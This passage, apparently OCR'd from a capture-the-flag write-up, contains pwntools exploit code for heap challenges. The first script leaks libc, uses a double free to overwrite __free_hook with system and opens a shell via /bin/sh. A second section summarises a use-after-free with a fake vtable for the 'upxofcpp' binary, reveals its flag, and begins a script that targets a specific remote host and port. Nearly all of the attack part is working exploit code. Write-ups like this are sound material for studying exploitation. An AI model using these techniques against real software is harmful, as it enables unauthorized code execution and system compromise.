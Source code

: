 ```python
  for i in xrange(7):
    add(0x28,"C","D")
  add(0x28,"\xb0","D")# 20
  add(0x28,"C","D") # 21
  add(0x28,"C","D") # 22
  add(0x28,"C","D") # 23

  call(11)
  show(23)
  r.recvuntil(":\n")
  libc = u64(r.recvuntil("\np")[:-2].ljust(8,"\x00")) - 0x3b1ca0
  print("libc = {}".format(hex(libc)))

  for i in xrange(9):
    add(0x68,"A"*0x68,"B"*0xc)
  for i in xrange(7):
    call(24+i)
  call(31)
  call(32)
  call(31)
  for i in xrange(7):
    add(0x68,"A"*0x68,"B"*0xc)
  malloc_hook = libc + 0x3b1c30
  free_hook = libc + 0x00000000003b38c8
  add(0x68,p64(free_hook-0x13),"B"*0xc)
  add(0x68,"A"*0x68,"B"*0xc)
  add(0x68,"/bin/sh\x00","B"*0xc)
  system = 0x0000000000041c30 + libc
  add(0x68,"A"*0x13 + p64(system) ,"B"*0xc)
  call(42)
  r.interactive()


```
### upxofcpp

* UPX packed program heap no DEP
* UAF vulnerability & fake vtable to execute shellcode

flag: `*ctf{its_time_to_say_goodbye_to_ubuntu_16_04}`


```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random
host = '34.92.121.149'
port = 10000

binary = "./upxofcpp"
context.binary = binary
elf = ELF(binary)
try:
  libc = ELF("./libc.so.6")
  log.success("libc load success")
  system_off = libc.symbols.system
  log.success("system_off = "+hex(system_off))
except:
  log.failure("libc not found !")

def add(index,size,num):
```